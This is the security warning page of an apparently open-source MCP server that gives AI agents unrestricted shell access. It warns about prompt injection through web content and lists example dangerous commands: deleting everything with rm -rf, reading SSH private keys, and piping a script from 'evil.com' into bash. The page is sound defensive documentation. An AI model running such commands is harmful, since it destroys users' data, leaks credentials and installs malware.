 # Security

## ⚠️ WARNING: This Tool Executes Shell Commands

**TL;DR**: This MCP server runs whatever commands you send it with your full user privileges. If someone malicious gets access to it, they own your system. Treat it like an SSH connection. Note that combined with things like letting your agent read web pages which might have embedded instructions in them and also giving them this tool is like juggling chainsaws. After lighting them on fire.

## What Can Go Wrong

1. **Complete System Access**: Any command sent through this tool runs as YOU. That means:
   - `rm -rf /` will delete your files
   - `cat ~/.ssh/id_rsa` will expose your SSH keys
   - `curl evil.com/malware.sh | bash` will install malware

2. **No Safety Rails**: This tool has:
   - ❌ No command filtering
   - ❌ No sandboxing
   - ❌ No rate limiting
   - ❌ No authentication

3. **Persistent Sessions**: Commands run in persistent tmux sessions that maintain state between requests. Environment variables, working directories, and running processes persist.

## Red Flags to Watch For

If you see these, something bad might be happening:
- Unexpected network connections
- Commands you don't recognize in your history
- High CPU/memory usage
- Files changing that shouldn't

## The Bottom Line

This is a powerful tool that gives complete shell access. Use it like you would use `sudo` - carefully and only when needed. When in doubt, run it in an isolated environment.

